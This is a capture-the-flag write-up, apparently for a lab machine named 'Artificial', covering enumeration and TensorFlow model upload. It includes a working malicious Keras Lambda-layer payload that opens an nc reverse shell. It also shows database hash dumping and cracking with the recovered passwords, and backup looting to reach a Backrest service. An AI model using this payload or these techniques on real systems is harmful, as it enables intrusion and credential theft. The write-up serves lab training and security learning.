







# Artificial CTF Writeup

## 1) Initial Enumeration

I began with a full Nmap scan:

```bash
nmap -Pn -p- --min-rate 2000 -sC -sV 10.129.232.51
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-25 13:34 EEST
Nmap scan report for artificial.htb (10.129.232.51)
Host is up (0.047s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.64 seconds
```

Open services: **SSH** and **HTTP**. The website advertises uploading and running user-supplied **TensorFlow** models, and even provides a **Dockerfile**. I used their Dockerfile since my local environment mismatched versions.

```bash
cat Dockerfile 
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

Registration flow:



---

## 2) Remote Code Execution via TensorFlow Model

The app lets you upload a model and execute it (server-side). I built a malicious model using a `Lambda` layer:

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc <MY-IP> 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

Build the tooling image:

```bash
sudo docker build -t artificial-exploit .
```

Run with a bind mount to generate the model inside a container that has TF 2.13.1:

```bash
sudo docker run -it -v $(pwd):/app artificial-exploit
```

Inside the container:

```bash
root@aa7e7d010128:/code# ls
tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl
root@aa7e7d010128:/code# cd /app
root@aa7e7d010128:/app# ls
Dockerfile  exploit.py	requirements.txt
```

Generate the backdoored model:

```bash
python3 exploit.py
```

Upload `exploit.h5` to the target and trigger execution. Catch the reverse shell:

```bash
nc -lnvp 4444 -s 10.10.14.38
listening on [10.10.14.38] 4444 ...
connect to [10.10.14.38] from (UNKNOWN) [10.129.130.76] 38608
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(app) gid=1001(app) groups=1001(app)
```

---

## 3) Post-Exploitation: Local Enumeration

Check home directories:

```bash
app@artificial:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root root 4096 Jun 18 13:19 .
drwxr-xr-x 18 root root 4096 Mar  3  2025 ..
drwxr-x---  6 app  app  4096 Jun  9 10:52 app
drwxr-x---  4 gael gael 4096 Jun  9 08:53 gael
```

Inside `~/app`:

```bash
app@artificial:~$ cd app
cd app
app@artificial:~/app$ ls -la
ls -la
total 36
drwxrwxr-x 7 app app 4096 Jun  9 13:56 .
drwxr-x--- 6 app app 4096 Jun  9 10:52 ..
-rw-rw-r-- 1 app app 7846 Jun  9 13:54 app.py
drwxr-xr-x 2 app app 4096 Sep  7 09:41 instance
drwxrwxr-x 2 app app 4096 Sep  7 09:50 models
drwxr-xr-x 2 app app 4096 Jun  9 13:55 __pycache__
drwxrwxr-x 4 app app 4096 Jun  9 13:57 static
drwxrwxr-x 2 app app 4096 Jun 18 13:21 templates
app@artificial:~/app$ cd instance
cd instance
app@artificial:~/app/instance$ ls
ls
users.db
```

SQLite shell was finicky until I stabilized TTY:

```
Ctrl + Z
stty raw -echo; fg
stty rows 38 columns 116
```

Dumping users:

```bash
app@artificial:~/app/instance$ sqlite3 users.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
model  user 
sqlite> SELECT * FROM user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|test|test@test.com|b5325989a9149a34e63e2939771ae9f7
```

Cracking hashes (MD5):

```bash
cat hash.txt 
c99175974b6e192936d97224638a34f8
0f3d8c76530022670f1c6029eed09ccb
b606c5f5136170f15444251665638b36
bc25b1f80f544c0ab451c02a3dca9fc6
bf041041e57f1aff3be7ea1abd6129d0
b5325989a9149a34e63e2939771ae9f7

hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt --force
hashcat -m 0 hash.txt --show

c99175974b6e192936d97224638a34f8:mattp005numbertwo
bc25b1f80f544c0ab451c02a3dca9fc6:marwinnarak043414036
```

Credentials obtained for **gael** and **royer** (e.g., for SSH).

---

## 4) Pivoting to Internal Services

List local listeners:

```bash
ss -lntp
State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port  Process  
LISTEN   0        2048           127.0.0.1:5000          0.0.0.0:*              
LISTEN   0        4096           127.0.0.1:9898          0.0.0.0:*              
LISTEN   0        511              0.0.0.0:80            0.0.0.0:*              
LISTEN   0        4096       127.0.0.53%lo:53            0.0.0.0:*              
LISTEN   0        128              0.0.0.0:22            0.0.0.0:*              
LISTEN   0        511                 [::]:80               [::]:*              
LISTEN   0        128                 [::]:22               [::]:*
```

I forwarded **5000** and **9898** to my host:

```bash
ssh -L 5000:127.0.0.1:5000 user@target
ssh -L 9898:127.0.0.1:9898 user@target
```

The service on 9898 exposed a web UI:



My current creds didn’t work, so I searched for **backups/configs**.

---

## 5) Backup Looting → Credentials for Backrest

Found backups:

```bash
ls /var/backups/
apt.extended_states.0     apt.extended_states.3.gz  apt.extended_states.6.gz
apt.extended_states.1.gz  apt.extended_states.4.gz  backrest_backup.tar.gz
apt.extended_states.2.gz  apt.extended_states.5.gz
```

Extracted `backrest_backup.tar.gz` and inspected:

```
backrest/
backrest/restic
backrest/oplog.sqlite-wal
backrest/oplog.sqlite-shm
backrest/.config/
backrest/.config/backrest/
backrest/.configxbackrest/config.json
backrest/oplog.sqlite.lock
backrest/backrest
backrest/tasklogs/
backrest/tasklogs/logs.sqlite-shm
backrest/tasklogs/.inprogress/
backrest/tasklogs/logs.sqlite-wal
backrest/tasklogs/logs.sqlite
backrest/oplog.sqlite
backrest/jwt-secret
backrest/processlogs/
backrest/processlogs/backrest.log
backrest/install.sh
```

And:

```bash
cat backrest/.config/backrest/config.json 
echo 'JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP'| base64 -d > /tmp/bcrypt.hash
```

Cracked the **bcrypt** hash:

```bash
hashcat -m 3200 /tmp/bcrypt.hash /usr/share/wordlists/rockyou.txt --force
hashcat -m 3200 /tmp/bcrypt.hash --show
!@#$%^
```

Logged into the **Backrest** service:

```text
Username: backrest_root
Password: !@#$%^
```

Abuse path (UI flow):

1. 
2. 
3. Go to **Plan** → **Backup Now**
4. 
5. **Restore** specific file: 
6. Retrieve an archive with the recovered file: 

This granted controlled file access/exfiltration via the backup system.

---

## 6) Status

At this stage I achieved:

* **RCE** as `app` via malicious TensorFlow model.
* **Local creds** for app users via SQLite dump and hash cracking.
* **Access to internal service** on 9898 (Backrest) by looting backups and cracking a **bcrypt** secret to log in as `backrest_root`.
* **File restore/exfil** via the backup UI.

> Note: This path didn’t yet elevate to full **root** on the host. Next likely steps would be:
>
> * Use Backrest “restore” to overwrite/exfil higher-privilege keys/config (e.g., SSH keys, service unit files, or cron-executed scripts).
> * Look for writable paths or restore-to paths that interact with systemd services.
> * Hunt for credentials/tokens within restored archives (cloud tokens, DB creds, private keys) to pivot or escalate.

---

## Takeaways

* **ML model ingestion** must sandbox/validate user models—`Lambda` layers can trigger code execution.
* **Credential hygiene**: Storing MD5 user hashes and bcrypt secrets in backups makes lateral movement trivial.
* **Backup/restore systems** can be abused for **data exfil** and sometimes **code execution** if restore targets are writable/executable paths.
* **Version pinning** (TF 2.13.1, Python 3.8) made exploitation straightforward by ensuring compatibility.
